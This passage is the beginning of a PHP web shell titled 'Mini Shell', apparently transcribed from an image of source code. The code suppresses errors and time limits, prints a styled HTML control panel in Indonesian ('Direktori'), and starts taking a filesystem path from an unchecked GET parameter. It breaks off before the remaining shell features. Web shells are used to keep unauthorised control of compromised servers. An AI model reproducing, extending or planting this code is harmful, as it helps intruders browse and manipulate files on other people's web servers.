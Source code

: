 ```
<?php
set_time_limit(0);
error_reporting(0);

if(get_magic_quotes_gpc()){
foreach($_POST as $key=>$value){
$_POST[$key] = stripslashes($value);
}
}
echo '<!DOCTYPE HTML>
<HTML>
<HEAD>
<link href="" rel="stylesheet" type="text/css">
<title>Mini Shell</title>
<style>
body{
font-family: "Racing Sans One", cursive;
background-color: #e6e6e6;
text-shadow:0px 0px 1px #757575;
}
#content tr:hover{
background-color: #636263;
text-shadow:0px 0px 10px #fff;
}
#content .first{
background-color: silver;
}
#content .first:hover{
background-color: silver;
text-shadow:0px 0px 1px #757575;
}
table{
border: 1px #000000 dotted;
}
H1{
font-family: "Rye", cursive;
}
a{
color: #000;
text-decoration: none;
}
a:hover{
color: #fff;
text-shadow:0px 0px 10px #ffffff;
}
input,select,textarea{
border: 1px #000000 solid;
-moz-border-radius: 5px;
-webkit-border-radius:5px;
border-radius:5px;
}
</style>
</HEAD>
<BODY>
<H1><center><img src="https://s.yimg.com/lq/i/mesg/emoticons7/19.gif"/>
 Mini Shell <img src="https://s.yimg.com/lq/i/mesg/emoticons7/19.gif"/>
 </center></H1>
<table width="700" border="0" cellpadding="3" cellspacing="1" align="center">
<tr><td>Direktori : ';
if(isset($_GET['path'])){
$path = $_GET['path'];
}else{
$path = getcwd();
```